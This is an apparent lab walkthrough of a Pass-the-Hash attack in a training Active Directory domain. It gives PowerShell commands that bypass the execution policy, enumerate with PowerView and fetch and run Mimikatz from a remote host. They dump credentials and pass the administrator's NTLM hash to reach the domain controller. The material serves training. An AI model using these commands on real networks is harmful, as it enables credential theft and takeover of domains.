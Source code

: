 
### Pass the Hash Attack

It is an attack where the hash of the password can be used for authentication of that user without needing cracking of the actual plain text password. 


- Once the hash is obtained, the attacker can pass the hashed credential to other systems within the active directory domain. 


### Tasks
- Perform Pass-The-Hash attack to access the domain controller. 


##### Load PowerView

```powershell
powershell -ep bypass

. .\PowerView.ps1
```



### Enumeration

##### Get the current domain:

```powershell
Get-Domain
```

It will tell us the current domain and the domain controller. 

Domain: `research.Security.local`
DC: `prod.research.security.local`
Forest: `Security.local`


##### Find the machine in current domain where current user has `Local Administrator` access. 

```powershell
Find-LocalAdminAccess
```

It will list all the machines where the current user has local administrator access. 
##### Powershell Remoting:

We will perform powershell remoting to access found machine above. 

```powershell
Enter-PSSession seclogs.research.security.local
```

It will give us the access of that system. 


Run the hfs server from the first machine and host `Invoke-Mimikatz.ps1` and `Invoke-TokenManipulations.ps1`.


In the Powershell remoted machine, run the following commands:
```powershell
cd /

iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1')

iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-TokenManipulations.ps1')
```

##### Enumeration
```powershell
Invoke-TokenManipulation -Enumerate
```


##### Dumping Passwords:
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa:logonpasswords"'
```

We will get the NTLM hash of the administrator with this command. 


We will pass this found hash too perform pass the hash attack:

We again need to open powershell as an administrator on the first student machine. 
We have to invoke the mimikatz here:
```powershell
. .\Invoke-Mimikatz.ps1
```

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.security.local /ntlm:HASH /run:powershell.exe"'
```

It will open another powershell process where we will be an administrator on the research.security.local machine. 


We can run the following powershell-Remoting command on the new powershell to get access of the DC. 

```powershell
Enter-PSSession prod.research.SECURITY.local
```


We are on the DC now. 

```powershell
hostname
```

It is DC. 


### Conclusion:

First, we found another machine where we were having local admin access. We did PS remoting into that system. 
We run mimikatz there to dump all the credentials there.  We found that the domain admin, or the administrator user of the DC was logged in there. So used the hash to perform pass the hash attack on the target machine, from there we did ps remoting to get an administrator on the DC. 

